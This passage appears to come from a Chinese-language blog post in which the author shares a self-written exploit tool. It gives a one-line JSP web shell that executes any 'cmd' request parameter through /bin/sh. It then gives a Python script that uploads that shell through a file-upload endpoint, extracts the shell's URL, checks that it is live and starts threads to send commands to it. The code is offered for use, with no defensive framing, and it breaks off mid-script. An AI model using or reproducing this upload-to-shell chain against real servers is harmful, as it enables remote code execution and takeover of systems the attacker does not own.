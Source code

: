 下面是我自己写的简陋版本,后面我会将其框架化,并加入session管理。

这里要注意shell这样来拼接,要不然echo命令用不了:

`&lt;%Runtime.getRuntime().exec(new String[]`{`"/bin/sh","-c",request.getParameter("cmd")`}`);%&gt;`

```
#!/usr/bin/python
# -*- coding:utf-8 -*-

import requests
import urllib.parse
import re
import threading

debug = True

def g1(host):
    url = 'http://' + host + '/' +'video/uploadvideo?&amp;param=temp&amp;fileType=jsp'
    # 这里需要修改下shell名字,上传name等配置
    files = `{`'uploadfile': ('shell.jsp', open('shell.jsp', 'rb'))`}`
    if debug:
        print("url:n" + url)
        print(files)
    rText = requests.post(url, files=files, timeout=5).text
    # 这里是shell路径匹配正则
    shellRegex = re.compile('"url":"(.*?)"')
    if(shellRegex.search(rText)):
        shellPath = shellRegex.search(rText)[1]
        if debug:
            print("shellPath:n" + shellPath)
        # 开始拼接shell
        shellURL = 'http://' + host + shellPath
        if debug:
            print("shellURL:n" + shellURL )
        print("[+]Success,get Shell: `{``}`".format(shellURL))
        return shellURL
    else:
        print("[-] Error, no shell!!!")
        return False

def getShell(host):
    print("[+]Staring getShell.....".center(100,'*'))
    shellList = []
    # request 发包
    s1 = g1(host)
    # socket 自定义协议包发送
    # s2 = g2(url)
    if(s1):
        shellList.append(s1)
    return shellList

def requestShell(shellURL, cmd, password):
    print("[+]Staring requestShell.....".center(100,'='))
    # 检查shell存活性
    if debug:
        print(shellURL)
    for u in shellURL:
        code = requests.get(u).status_code
        if(code != 404):
            # 开始创建请求线程
            print("[+] now, subThread requesting......")
            t = threading.Thread(target=work, args=(u, cmd, password,))
            t.start()
```